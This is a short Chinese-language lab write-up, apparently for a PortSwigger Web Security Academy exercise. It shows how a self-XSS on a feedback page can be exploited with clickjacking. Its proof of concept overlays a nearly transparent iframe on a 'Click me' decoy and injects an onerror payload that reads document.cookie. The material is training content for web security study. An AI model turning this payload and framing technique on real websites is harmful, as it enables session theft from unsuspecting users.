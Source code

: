 self_xss的一种高危利用方式

提交反馈页面存在self_xss，可以通过控制url来决定页面输入值

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/点击劫持/images/06708061DBED4D7A8CDA7C1BC82BB8B0clipboard.png)



当点击提交按钮时，即可再页面上返回用户名，并触发self_xss



搭配页面劫持来造成危害,poc:

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:600px;
       left:80px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe
src="https://ac611f131fcefcf5803d180500010040.web-security-academy.net/feedback?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

